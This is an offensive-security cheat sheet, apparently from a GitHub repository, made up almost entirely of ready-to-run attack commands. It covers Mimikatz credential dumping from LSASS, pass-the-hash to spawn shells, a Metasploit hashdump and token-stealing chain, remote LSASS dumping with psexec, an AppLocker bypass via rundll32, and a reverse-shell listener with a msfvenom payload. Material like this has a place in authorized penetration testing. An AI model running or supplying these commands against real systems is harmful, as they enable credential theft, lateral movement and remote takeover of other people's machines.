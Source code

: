 ## Mimikatz
- First Mimikatz commands: (run always)  
  `mimikatz # privilege::debug`  
  `mimikatz # log sekurlsa.log`  
- logonpasswords:  
  `mimikatz # sekurlsa::logonpasswords`  
- other way:  
  `mimikatz # token::elevate`  
  `mimikatz # lsadump::secrets`  
- Use minidump file:  
  `mimikatz # sekurlsa::minidump C:\WINDOWS\Temp\debug7962.bin`  
- PW Dump oneliner: `mimikatz.exe privilege::debug sekurlsa::logonPasswords exit > output.txt`
- Start shell with NTLM hash of user:  
  `mimikatz # sekurlsa::pth /user:admin-kiwi /domain:comp-internal /ntlm:cc36cf7a8514893efccd332446158b1a /run:cmd`  
- Possible attack sequence with metasploit:  
  1. Run Metasploit's "hashdump" to get hashes: `hashdump`  
  2. Start a process under the desired identity: `mimikatz sekurlsa::pth /user:Administrator /domain:. /ntlm:… /run:"powershell -w hidden"`  
  3. In Metasploit, abuse the security token of the just spawn process: `steal_token 1234`  
  4. Do now whatever you want in metasploit with these privileges (e.g. list\\target\c$, upload and run binaries, perform WMIC commands, ...)
- Create minidump: (easiest with right click in taskmgr)  
  `procdump64.exe -accepteula -ma lsass.exe lsass.dmp`  
   Remote: `psexec.py -c procdump64.exe 'example.com/username:P@ssw0rd@foobar.example.com' '-accepteula -ma lsass.exe c:\lsass.dmp'`  
- On Kali, you can use pypykatz to extract the creds from the lsass.dmp:  
  Install pypykatz:  
  `# pip3 install pypykatz`  
  Extract the creds from the lsass.dmp:   
  `# pypykatz lsa minidump lsass.dmp`  
    
## Bypass Applocker
- Bypass Applocker with mimilib.dll to run arbitrary executables:  
  `rundll32 c:\path\mimilib.dll,start d:\otherpath\a.exe`  

## Metasploit
- Multihandler:
  `msf>use exploit multi/handler`  
  `msf>set payload windows/meterpreter/reverse_tcp`  
  `msf>set lhost <local IP>`  
  `msf>set lport <local port>`  
  `msf>set ExitOnSession false`  
  `msf>exploit -j`  
- MSF Payload:  
  `msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.90 LPORT=4444 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -v shellcode -a x86 --platform windows`  
- Vuln Scanning with MSF:  
  make sure db runs: `db_status`  
  `db_nmap -v -sV 10.11.1.35`  
  `db_nmap -sS -Pn -A 10.11.1.35`  
